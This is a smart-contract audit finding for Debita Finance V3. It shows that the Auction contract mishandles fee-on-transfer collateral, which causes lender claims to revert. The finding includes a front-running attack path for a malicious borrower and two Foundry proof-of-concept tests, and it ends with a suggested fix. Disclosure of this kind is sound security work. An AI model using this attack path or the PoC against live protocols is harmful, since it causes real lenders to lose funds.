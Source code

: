 Brisk Cobalt Skunk

High

# Transferring FoT tokens is not supported in `Auction` leading to loss of funds for lenders due to insufficient funds for `claimCollateralAsLender()` call

### Summary

`TaxTokensReceipt` is a contract allowing the use of fee-on-transfer tokens in Debita protocol. Tax token receipt NFT can be used as collateral for a loan that is later liquidated. If the loan has more than one lender, the receipt has to be sold on an auction to withdraw a portion of the underlying collateral token. Because the underlying is fee-on-transfer, `DebitaV3Loan` contract will receive less funds from the NFT buyer than the expected `soldAmount` used in `handleAuctionSell()`:
https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Loan.sol#L329-L332

If the loan has one lend order, `claimCollateralAsLender()` will always revert.

If the loan has multiple lend orders, the loss incurred from the FoT token fee will be unfairly distributed over last lender(s) calling `claimCollateralAsLender()` as the collateral which is fee% less will eventually run out.

### Root Cause

The `buyNFT()` function on `Auction` contract does not support transfers of fee-on-transfer `sellingToken`s:
https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/auctions/Auction.sol#L128-L133
It *assumes* that the amount sent will be equal to the amount received by the loan contract.


### Internal pre-conditions

- loan with one or more lend orders and TaxTokenReceipt as NFT collateral is created
- borrower does not repay the loan 


### External pre-conditions

--

### Attack Path

When we consider the scenario with multiple lenders a malicious borrower can exploit this issue leading to loss of lender's funds by avoiding paying interest on a loan and griefing by locking their collateral in the loan contract:
1. Find a lend order accepting TaxTokenReceipt as collateral.
2. Create a borrow order with `availableAmount` slightly bigger than the lend order's max amount. 
3. Create a fake lend order utilizing the rest of the available collateral, which will be larger than the fee taken on the transfer 
4. Match all these offers and omit to repay the loan.
5. Frontrun the real lender with a `claimCollateralAsLender()` call from his fake lend order making the real lender's calls revert.

### Impact

Always leads to loss of funds worth the provided principle for either some of the lenders or the only lender:

1. One lend order
`claimCollateralAsLender()` call will always revert due to insufficient FoT token balance - breaking the liquidation mechanism and leading to loss of lender's funds.

2. Multiple lend orderss
The loss of funds caused by insufficient funds reverts will be unfairly distributed over the last lender(s) calling `claimCollateralAsLender()`.


### PoC

Due to an unrelated root cause the `TaxTokensReceipt` cannot be used at all without reverting, to make the PoC work for **this** finding comment out this code:
https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/Non-Fungible-Receipts/TaxTokensReceipts/TaxTokensReceipt.sol#L98-L105
Details of this issue are in separate reports, but in short `TaxTokensReceipt` lacks support for transfers from `Auction` contract to the NFT buyer.

<details>
<summary>One lender</summary>
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {veNFTAerodrome} from "@contracts/Non-Fungible-Receipts/veNFTS/Aerodrome/Receipt-veNFT.sol";

import {veNFTVault} from "@contracts/Non-Fungible-Receipts/veNFTS/Aerodrome/veNFTAerodrome.sol";
import {DBOFactory} from "@contracts/DebitaBorrowOffer-Factory.sol";
import {DBOImplementation} from "@contracts/DebitaBorrowOffer-Implementation.sol";
import {DLOFactory} from "@contracts/DebitaLendOfferFactory.sol";
import {DLOImplementation} from "@contracts/DebitaLendOffer-Implementation.sol";
import {DebitaV3Aggregator} from "@contracts/DebitaV3Aggregator.sol";
import {Ownerships} from "@contracts/DebitaLoanOwnerships.sol";
import {auctionFactoryDebita} from "@contracts/auctions/AuctionFactory.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {DynamicData} from "../../../interfaces/getDynamicData.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";

// import ERC20
import {DebitaV3Loan} from "@contracts/DebitaV3Loan.sol";
import {DebitaIncentives} from "@contracts/DebitaIncentives.sol";
import {DebitaV3Loan} from "@contracts/DebitaV3Loan.sol";
import {DebitaChainlink} from "@contracts/oracles/DebitaChainlink.sol";
import {DebitaPyth} from "@contracts/oracles/DebitaPyth.sol";
import {TaxTokensReceipts} from "@contracts/Non-Fungible-Receipts/TaxTokensReceipts/TaxTokensReceipt.sol";
import {DutchAuction_veNFT} from "@contracts/auctions/Auction.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract TestTaxTokensReceipts is Test {
    DBOFactory public dbFactory;
    DLOFactory public dlFactory;
    Ownerships public ownershipsContract;
    DebitaIncentives public incentivesContract;
    DebitaV3Aggregator public aggregator;
    auctionFactoryDebita public auctionFactoryDebitaContract;
    DynamicData public allDynamicData;
    DebitaV3Loan public DebitaV3LoanContract;
    DLOImplementation public LendOrder;
    DBOImplementation public BorrowOrder;
    // simulating a taxable token --> address(token)
    // taxable token has to extent TaxTokensReceipts interface

    address lender = 0x1000000000000000000000000000000000000001;
    address borrower = 0x2000000000000000000000000000000000000002;
    FeeOnTransfer token;
    ERC20Mock principle;

    TaxTokensReceipts public receiptContract;
    function setUp() public {
        allDynamicData = new DynamicData();
        ownershipsContract = new Ownerships();
        incentivesContract = new DebitaIncentives();
        DBOImplementation borrowOrderImplementation = new DBOImplementation();
        dbFactory = new DBOFactory(address(borrowOrderImplementation));
        DLOImplementation proxyImplementation = new DLOImplementation();
        dlFactory = new DLOFactory(address(proxyImplementation));
        auctionFactoryDebitaContract = new auctionFactoryDebita();

        token = new FeeOnTransfer();
        principle = new ERC20Mock();
        DebitaV3Loan loanInstance = new DebitaV3Loan();
  
        aggregator = new DebitaV3Aggregator(
            address(dlFactory),
            address(dbFactory),
            address(incentivesContract),
            address(ownershipsContract),
            address(auctionFactoryDebitaContract),
            address(loanInstance)
        );
receiptContract = new TaxTokensReceipts(
            address(token),
            address(dbFactory),
            address(dlFactory),
            address(aggregator)
        );
         ownershipsContract.setDebitaContract(
            address(aggregator)
        );
        auctionFactoryDebitaContract.setAggregator(
            address(aggregator)
        );
        dlFactory.setAggregatorContract(
            address(aggregator)
        );
        dbFactory.setAggregatorContract(
            address(aggregator)
        );

        incentivesContract.setAggregatorContract(
            address(aggregator)
        );
        aggregator.setValidNFTCollateral(
            address(receiptContract),
            true
        );
      
        token.exemptFromTax(address(receiptContract));
    
        deal(address(token), borrower, 100e18, true);
    }

    error ERC20InsufficientBalance(address,uint,uint);

    function test_taxTokensUnsupported() public {
        vm.startPrank(borrower);
        token.approve(address(receiptContract), 1000e18);
        uint tokenID = receiptContract.deposit(100e18);
        assertEq(receiptContract.balanceOf(borrower), 1);
        createBorrowOrder(
            1e18,
            4000,
            tokenID,
            864000,
            1,
            address(principle),
            address(receiptContract),
            borrower
        );
        vm.stopPrank();

        vm.startPrank(lender);
        createLendOrder(
            1e18,
            4000,
            864000,
            864000,
            100e18,
            address(principle),
            address(receiptContract),
            lender
        );
        vm.stopPrank();

        vm.startPrank(borrower);
        matchOffers();
        vm.stopPrank();

        vm.warp(block.timestamp + 12 days);
        vm.prank(lender); // lender liquidates
        DebitaV3LoanContract.createAuctionForCollateral(0);
            DutchAuction_veNFT auction = DutchAuction_veNFT(
            DebitaV3LoanContract.getAuctionData().auctionAddress
        );
        DutchAuction_veNFT.dutchAuction_INFO memory auctionData = auction
            .getAuctionData();

        address nftBuyer = 0x5C235931376b21341fA00d8A606e498e1059eCc0;

        deal(address(token), nftBuyer, 100e18);
        vm.startPrank(nftBuyer);

        FeeOnTransfer(address(token)).approve(address(auction), 100e18);
        auction.buyNFT();
        vm.stopPrank();

        vm.prank(lender); // lender claims and gets 90% of the collateral = 90e18 - auction fee 2% => 88.2e18
        address proxy = 0x82DcE515b19ca6C2b03060d7DA1a9670fc6EE074;
        uint availableBalance = 88.2e18;
        uint expectedValue = 98e18;
        vm.expectRevert(abi.encodeWithSelector(ERC20InsufficientBalance.selector, proxy,availableBalance, expectedValue));
        DebitaV3LoanContract.claimCollateralAsLender(0);

    }

    function createLendOrder(
        uint _ratio,
        uint maxInterest,
        uint minTime,
        uint maxTime,
        uint amountPrinciple,
        address principle,
        address collateral,
        address lender
    ) internal returns (address) {
        deal(principle, lender, amountPrinciple, false);
        IERC20(principle).approve(address(dlFactory), 1000e18);
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedCollaterals = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        ratio[0] = _ratio;
        oraclesPrinciples[0] = address(0x0);
        acceptedCollaterals[0] = collateral;
        oraclesActivated[0] = false;
        ltvs[0] = 0;

        address lendOrderAddress = dlFactory.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            maxInterest,
            maxTime,
            minTime,
            acceptedCollaterals,
            principle,
            oraclesPrinciples,
            ratio,
            address(0x0),
            amountPrinciple
        );
        LendOrder = DLOImplementation(lendOrderAddress);
        return lendOrderAddress;
    }
    function createBorrowOrder(
        uint _ratio,
        uint maxInterest,
        uint tokenId,
        uint time,
        uint amountCollateral,
        address principle,
        address collateral,
        address borrower
    ) internal {
        IERC721(collateral).approve(address(dbFactory), tokenId);
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        ratio[0] = _ratio;
        oraclesPrinciples[0] = address(0x0);
        acceptedPrinciples[0] = principle;
        oraclesActivated[0] = false;
        ltvs[0] = 0;

        address borrowOrderAddress = dbFactory.createBorrowOrder(
            oraclesActivated,
            ltvs,
            maxInterest,
            time,
            acceptedPrinciples,
            collateral,
            true,
            tokenId,
            oraclesPrinciples,
            ratio,
            address(0x0),
            amountCollateral
        );
        BorrowOrder = DBOImplementation(borrowOrderAddress);
    }

    function matchOffers() public {
        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(1);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
            1
        );
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(1);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(1);

        lendOrders[0] = address(LendOrder);
        lendAmountPerOrder[0] = 100e18;
        porcentageOfRatioPerLendOrder[0] = 10000;
        principles[0] = address(principle);

        // 0.1e18 --> 1e18 collateral

        address loan = aggregator.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            address(BorrowOrder),
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        DebitaV3LoanContract = DebitaV3Loan(loan);
    }
}


contract FeeOnTransfer is ERC20{
    uint feeBp = 1000; // 10%
    mapping (address=>bool) public isNotTaxed;

      constructor() ERC20("ERC20FoT", "E20FoT") {}

    function mint(address account, uint256 amount) external {
        _mint(account, amount);
    }

    function burn(address account, uint256 amount) external {
        _burn(account, amount);
    }

    function exemptFromTax(address toExempt) external {
        isNotTaxed[toExempt] = true;
    }

    function transferFrom(address from, address to, uint256 value) public override returns (bool) {
        address spender = _msgSender();
        uint amount = value * (10000-feeBp) / 10000; 
        if (isNotTaxed[to]) {
            amount = value;
        }
        super._spendAllowance(from, spender, amount);
        super._transfer(from, to, amount);
        return true;
    }
}

</details>

<details>
<summary>Two Lenders</summary>
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {veNFTAerodrome} from "@contracts/Non-Fungible-Receipts/veNFTS/Aerodrome/Receipt-veNFT.sol";

import {veNFTVault} from "@contracts/Non-Fungible-Receipts/veNFTS/Aerodrome/veNFTAerodrome.sol";
import {DBOFactory} from "@contracts/DebitaBorrowOffer-Factory.sol";
import {DBOImplementation} from "@contracts/DebitaBorrowOffer-Implementation.sol";
import {DLOFactory} from "@contracts/DebitaLendOfferFactory.sol";
import {DLOImplementation} from "@contracts/DebitaLendOffer-Implementation.sol";
import {DebitaV3Aggregator} from "@contracts/DebitaV3Aggregator.sol";
import {Ownerships} from "@contracts/DebitaLoanOwnerships.sol";
import {auctionFactoryDebita} from "@contracts/auctions/AuctionFactory.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {DynamicData} from "../../../interfaces/getDynamicData.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";

// import ERC20
import {DebitaV3Loan} from "@contracts/DebitaV3Loan.sol";
import {DebitaIncentives} from "@contracts/DebitaIncentives.sol";
import {DebitaV3Loan} from "@contracts/DebitaV3Loan.sol";
import {DebitaChainlink} from "@contracts/oracles/DebitaChainlink.sol";
import {DebitaPyth} from "@contracts/oracles/DebitaPyth.sol";
import {TaxTokensReceipts} from "@contracts/Non-Fungible-Receipts/TaxTokensReceipts/TaxTokensReceipt.sol";
import {DutchAuction_veNFT} from "@contracts/auctions/Auction.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract TestTaxTokensReceipts is Test {
    DBOFactory public dbFactory;
    DLOFactory public dlFactory;
    Ownerships public ownershipsContract;
    DebitaIncentives public incentivesContract;
    DebitaV3Aggregator public aggregator;
    auctionFactoryDebita public auctionFactoryDebitaContract;
    DynamicData public allDynamicData;
    DebitaV3Loan public DebitaV3LoanContract;
    DLOImplementation public LendOrder;
    DBOImplementation public BorrowOrder;
    // simulating a taxable token --> address(token)
    // taxable token has to extend TaxTokensReceipts interface

    address lender1 = address(0x1000000000000000000000000000000000000001);
    address lender2 = address(0x2000000000000000000000000000000000000002);
    address borrower = address(0x3000000000000000000000000000000000000003);

    FeeOnTransfer token; // FoT token used as collateral
    ERC20Mock principleToken; 

    TaxTokensReceipts public receiptContract;
    function setUp() public {
        allDynamicData = new DynamicData();
        ownershipsContract = new Ownerships();
        incentivesContract = new DebitaIncentives();
        DBOImplementation borrowOrderImplementation = new DBOImplementation();
        dbFactory = new DBOFactory(address(borrowOrderImplementation));
        DLOImplementation proxyImplementation = new DLOImplementation();
        dlFactory = new DLOFactory(address(proxyImplementation));
        auctionFactoryDebitaContract = new auctionFactoryDebita();

        token = new FeeOnTransfer(); // FoT token
        principleToken = new ERC20Mock(); 

        DebitaV3Loan loanInstance = new DebitaV3Loan();

        aggregator = new DebitaV3Aggregator(
            address(dlFactory),
            address(dbFactory),
            address(incentivesContract),
            address(ownershipsContract),
            address(auctionFactoryDebitaContract),
            address(loanInstance)
        );
        receiptContract = new TaxTokensReceipts(
            address(token),
            address(dbFactory),
            address(dlFactory),
            address(aggregator)
        );
        ownershipsContract.setDebitaContract(
            address(aggregator)
        );
        auctionFactoryDebitaContract.setAggregator(
            address(aggregator)
        );
        dlFactory.setAggregatorContract(
            address(aggregator)
        );
        dbFactory.setAggregatorContract(
            address(aggregator)
        );

        incentivesContract.setAggregatorContract(
            address(aggregator)
        );
        aggregator.setValidNFTCollateral(
            address(receiptContract),
            true
        );

        token.setExempt(address(receiptContract), true);

        // Mint tokens to borrower and lenders
        token.mint(borrower, 100e18); // FoT token for borrower (collateral)
        principleToken.mint(lender1, 90e18); 
        principleToken.mint(lender2, 10e18); 
    }

    error ERC20InsufficientBalance(address,uint,uint);


    function test_taxTokensUnsupported() public {
        // borrower deposits FoT token as collateral
        vm.startPrank(borrower);
        token.approve(address(receiptContract), 100e18);
        uint tokenID = receiptContract.deposit(100e18);
        assertEq(receiptContract.balanceOf(borrower), 1);
        createBorrowOrder(
            1e18, // ratio
            4000, // maxInterest
            tokenID,
            864000, // time
            1, // amountCollateral (ignored for NFTs)
            address(principleToken), 
            address(receiptContract),
            borrower
        );
        vm.stopPrank();

        // Lender 1 creates a lend order
        vm.startPrank(lender1);
        principleToken.approve(address(dlFactory), 90e18); 
        address lendOrder1 = createLendOrder(
            1e18,
            4000,
            864000,
            864000,
            90e18,
            address(principleToken), 
            address(receiptContract),
            lender1
        );
        vm.stopPrank();

        // Lender 2 creates a lend order
        vm.startPrank(lender2);
        principleToken.approve(address(dlFactory), 10e18); 
        address lendOrder2 = createLendOrder(
            1e18,
            4000,
            864000,
            864000,
            10e18,
            address(principleToken), 
            address(receiptContract),
            lender2
        );
        vm.stopPrank();

        // Match offers with both lenders
        matchOffers(lendOrder1, lendOrder2);

        // Simulate liquidation
        vm.warp(block.timestamp + 12 days);
        vm.prank(borrower);
        DebitaV3LoanContract.createAuctionForCollateral(0);

        DutchAuction_veNFT auction = DutchAuction_veNFT(
            DebitaV3LoanContract.getAuctionData().auctionAddress
        );

        address nftborrower = address(0x5C235931376b21341fA00d8A606e498e1059eCc0);
        token.mint(nftborrower, 100e18);

        vm.startPrank(nftborrower);
        token.approve(address(auction), 100e18);
        auction.buyNFT();
        vm.stopPrank();

        // lender1 wants to claim 90e18 
        vm.prank(lender1);
        DebitaV3LoanContract.claimCollateralAsLender(0); 
        // they receive 88.2e18 due to 2% auction fee
        assertEq(token.balanceOf(lender1), 88.2e18);

address proxy = 0x82DcE515b19ca6C2b03060d7DA1a9670fc6EE074;
        uint availableBalance = 0;
        uint expectedValue = 9.8e18; // 10e18 - 2% auction fee
        vm.expectRevert(abi.encodeWithSelector(ERC20InsufficientBalance.selector, proxy,availableBalance, expectedValue));
        vm.prank(lender2);
        DebitaV3LoanContract.claimCollateralAsLender(1); 
    }

    function createLendOrder(
        uint _ratio,
        uint maxInterest,
        uint minTime,
        uint maxTime,
        uint amountPrinciple,
        address principle,
        address collateral,
        address lender
    ) internal returns (address) {
        // IERC20(principle).approve(address(dlFactory), 1000e18); // Approval moved to test function
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedCollaterals = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        ratio[0] = _ratio;
        oraclesPrinciples[0] = address(0x0);
        acceptedCollaterals[0] = collateral;
        oraclesActivated[0] = false;
        ltvs[0] = 0;

        address lendOrderAddress = dlFactory.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            maxInterest,
            maxTime,
            minTime,
            acceptedCollaterals,
            principle,
            oraclesPrinciples,
            ratio,
            address(0x0),
            amountPrinciple
        );
        return lendOrderAddress;
    }
    function createBorrowOrder(
        uint _ratio,
        uint maxInterest,
        uint tokenId,
        uint time,
        uint amountCollateral,
        address principle,
        address collateral,
        address borrower
    ) internal {
        IERC721(collateral).approve(address(dbFactory), tokenId);
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        ratio[0] = _ratio;
        oraclesPrinciples[0] = address(0x0);
        acceptedPrinciples[0] = principle;
        oraclesActivated[0] = false;
        ltvs[0] = 0;

        address borrowOrderAddress = dbFactory.createBorrowOrder(
            oraclesActivated,
            ltvs,
            maxInterest,
            time,
            acceptedPrinciples,
            collateral,
            true,
            tokenId,
            oraclesPrinciples,
            ratio,
            address(0x0),
            amountCollateral
        );
        BorrowOrder = DBOImplementation(borrowOrderAddress);
    }

    function matchOffers(address lendOrder1, address lendOrder2) public {
        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(2);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(2);
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData.getDynamicUintArray(2);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData.getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData.getDynamicUintArray(2);
        uint[] memory indexPrinciple_LendOrder = allDynamicData.getDynamicUintArray(2);

        lendOrders[0] = lendOrder1;
        lendOrders[1] = lendOrder2;
        lendAmountPerOrder[0] = 90e18;
        lendAmountPerOrder[1] = 10e18;
        porcentageOfRatioPerLendOrder[0] = 10000;
        porcentageOfRatioPerLendOrder[1] = 10000;
        principles[0] = address(principleToken); 
        indexForPrinciple_BorrowOrder[0] = 0;
        indexForCollateral_LendOrder[0] = 0;
        indexForCollateral_LendOrder[1] = 0;
        indexPrinciple_LendOrder[0] = 0;
        indexPrinciple_LendOrder[1] = 0;

        // 0.1e18 --> 1e18 collateral

        address loan = aggregator.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            address(BorrowOrder),
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        DebitaV3LoanContract = DebitaV3Loan(loan);
    }
}


contract FeeOnTransfer is ERC20 {
    uint public feeBp = 1000; // 10%
    mapping (address => bool) public isExempt;

    constructor() ERC20("ERC20FoT", "E20FoT") {}

    function mint(address account, uint256 amount) external {
        _mint(account, amount);
    }

    function burn(address account, uint256 amount) external {
        _burn(account, amount);
    }

    function setExempt(address addr, bool status) external {
        isExempt[addr] = status;
    }


    function transferFrom(address from, address to, uint256 value) public override returns (bool) {
        address spender = _msgSender();
        _spendAllowance(from, spender, value);

        uint fee = 0;
        if (!isExempt[to]) {
            fee = value * feeBp / 10000;
        }
        uint amountAfterFee = value - fee;
        _transfer(from, to, amountAfterFee);
        if (fee > 0) {
            _burn(from, fee); // Burn the fee
        }
        return true;
    }
}
</details>

Run both PoCs with the same command:
```shell
forge test --fork-url https://mainnet.base.org --fork-block-number 21151256  --mt test_taxTokensUnsupported  -vvvvv
```

As we can see the call to `claimCollateralAsLender()` reverted with ERC20InsufficientBalance for both cases.
comment out

### Mitigation

To ensure that the lenders will receive the correct amount of collateral after liquidation, consider adding checks in `buyNFT()` validating that the buyer will cover the fee on transfer OR the `Auction` is exempt from tax like `TaxTokenReceipt` is supposed to be. Alternatively if by design lenders should cover this cost, validate the `amount` passed to `handleAuctionSell()` against the loan's underlying token balance.